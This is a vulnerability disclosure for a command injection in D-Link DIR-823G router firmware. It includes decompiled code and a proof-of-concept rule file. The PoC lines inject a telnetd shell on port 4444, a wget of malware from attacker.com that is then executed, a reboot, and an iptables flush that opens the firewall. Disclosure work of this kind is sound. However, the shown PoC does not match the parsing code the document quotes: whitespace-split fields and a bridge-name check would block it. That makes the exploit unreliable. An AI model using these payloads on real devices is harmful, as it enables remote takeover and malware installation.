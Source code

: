 # Command Injection Vulnerability in `/tmp/new_qos.rule`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | D-Link DIR-823G Router                                       |
| Firmware Version     | **DIR823G_V1.0.2B05_20181207.bin** (other versions require verification) |
| Vulnerability Type   | **Command Injection**                                        |
| Vulnerable Component | `timelycheck` and `sysconf` binaries                         |
| Prerequisites        | Requires control over `/tmp/new_qos.rule` content or filesystem write permissions (local or remote) |

2. Exploitation Path

```c
int sub_413628()
{
  ...
  if ( v28 )
  {
    v11 = !sub_402864((int)"/tmp/new_qos.rule");
    result = 0;
    if ( !v11 )
    {
      v47 = fopen("/tmp/new_qos.rule", "r");
      if ( !v47 )
      {
        printf("open file %s error\n", "/tmp/new_qos.rule");
        return 0;
      }
      v12 = 53;
      v13 = 13;
LABEL_56:
      v14 = v47;
      while ( 1 )
      {
        do
        {
          if ( !fgets(v44, 512, v14) )
          {
            fclose(v47, v22);
            return 1;
          }
          sscanf(v44, "%*s %31s %17s %d %31s %31s %d %*s %7s", 
                 v35, v42, &v29, v36, v37, &v30, v31);
          v14 = v47;
        }
        while ( !v29 );
        if ( atoi(v36) <= 0 )
          goto LABEL_49;
        if ( strcmp(v31, "br0") )
        {
          v15 = strcmp(v31, "br1");
          v14 = v47;
          if ( v15 )
            continue;
        }
        snprintf(v38, 63, "%d", v13);
        snprintf(
          v43,
          255,
          "%s %s %s %s %s %s %s %s %s %s %s %s %s %s %s",
          aIptables,
          aA_0,
          aPrerouting,
          asc_42F258,
          aMangle,
          aI_2,
          (const char *)v31,
          aM,
          aMac_0,
          aMacSource,
          v42,
          aJ_0,
          aMark,
          aSetMark,
          v38);
        system(v43);
        ...
LABEL_49:
        if ( atoi(v37) <= 0 )
          goto LABEL_56;
        if ( !strcmp(v31, "br0") )
        {
          snprintf(v38, 63, "%d", v12);
          snprintf(
            v43,
            255,
            "%s %s %s %s %s %s %s %s %s %s %s %s %s %s %s",
            aIptables,
            aA_0,
            aPostrouting,
            asc_42F258,
            aMangle,
            aO,
            "br0",
            aM,
            aMac_0,
            aMacDestination,
            v42,
            aJ_0,
            aMark,
            aSetMark,
            v38);
          system(v43);
          ...
LABEL_55:
          ++v12;
          sub_4029C0(0, v18, "filter", v19);
          goto LABEL_56;
        }
        v20 = strcmp(v31, "br1");
        v14 = v47;
        if ( !v20 )
        {
          snprintf(v38, 63, "%d", v12);
          snprintf(
            v43,
            255,
            "%s %s %s %s %s %s %s %s %s %s %s %s %s %s %s",
            aIptables,
            aA_0,
            aPostrouting,
            asc_42F258,
            aMangle,
            aO,
            "br1",
            aM,
            aMac_0,
            aMacDestination,
            v42,
            aJ_0,
            aMark,
            aSetMark,
            v38);
          system(v43);
          ...
}
```

3. **Vulnerable Binaries:** `timelycheck` and `sysconf`, This vulnerability exists independently in both binaries and does not cross binary boundaries.

4. 0-Day Command Injection Exploitation Path:

   - Line 24: `fgets(v44, 512, v14)` reads content from `/tmp/new_qos.rule`. Line 29: `sscanf(v44, "%*s %31s %17s %d %31s %31s %d %*s %7s", v35, v42, &v29, v36, v37, &v30, v31)` parses each line, but no escaping or filtering is performed. The variable `v42`, derived from the configuration file, is concatenated directly into line 63: `system(v43)`, resulting in a command injection vulnerability.

   - Line 24: `fgets(v44, 512, v14)` reads content from `/tmp/new_qos.rule`. Line 29 parses the line as above. `v42` is concatenated directly into line 90: `system(v43)`, resulting in a command injection vulnerability.

   - Line 24: `fgets(v44, 512, v14)` reads content from `/tmp/new_qos.rule`. Line 29 parses the line as above. `v42` is concatenated directly into line 121: `system(v43)`, resulting in a command injection vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability:

```bash
# /tmp/new_qos.rule content
rule1 AA:BB:CC:DD:EE:FF 1 1000 2000 0 eth0 ; telnetd -l /bin/sh -p 4444 ; reboot
rule2 11:22:33:44:55:66 1 1500 2500 0 br0 ; wget http://attacker.com/malware -O /tmp/exp ; sh /tmp/exp
rule3 AA:BB:CC:DD:EE:FF 1 1000 2000 0 br1 ; iptables -F ; iptables -P INPUT ACCEPT
```



